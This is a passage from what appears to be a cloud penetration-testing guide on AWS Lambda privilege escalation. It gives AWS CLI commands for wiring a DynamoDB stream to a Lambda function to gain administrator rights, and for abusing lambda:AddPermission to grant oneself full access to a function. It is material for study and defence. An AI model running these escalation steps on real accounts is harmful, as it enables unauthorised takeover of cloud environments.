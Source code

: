 After this, the next step depends on **whether DynamoDB is being used** in the current AWS environment. **If** it is being **used**, all that needs to be done is **creating the event source mapping** for the Lambda function, but if not, then the attacker will need to **create a table with streaming enabled** with the following command:

```bash
aws dynamodb create-table --table-name my_table \
    --attribute-definitions AttributeName=Test,AttributeType=S \
    --key-schema AttributeName=Test,KeyType=HASH \
    --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
    --stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES
```

After this command, the attacker would **connect the Lambda function and the DynamoDB table** by **creating an event source mapping** with the following command:

```bash
aws lambda create-event-source-mapping --function-name my_function \
    --event-source-arn <arn_of_dynamodb_table_stream> \
    --enabled --starting-position LATEST
```

Now that the Lambda function and the stream are connected, the attacker can i**nvoke the Lambda function by triggering the DynamoDB stream**. This can be done by putting an item into the DynamoDB table, which will trigger the stream, using the following command:

```bash
aws dynamodb put-item --table-name my_table \
    --item Test={S="Random string"}
```

At this point, the Lambda function will be invoked, and the attacker will be made an administrator of the AWS account.

**Potential Impact:** Direct privesc to the lambda service role specified.

### `lambda:AddPermission`

An attacker with this permission can **grant himself (or others) any permissions** (this generates resource based policies to grant access to the resource):

{% code overflow="wrap" %}
```bash
# Give yourself all permissions (you could specify granular such as lambda:InvokeFunction or lambda:UpdateFunctionCode)
aws lambda add-permission --function-name <func_name> --statement-id asdasd --action '*' --principal arn:<your user arn>

# Invoke the function
aws lambda lambda invoke --function-name <func_name> /tmp/outout
```
{% endcode %}

**Potential Impact:** Direct privesc to the lambda service role used by granting permission to modify the code and run it.

### `lambda:UpdateFunctionCode`
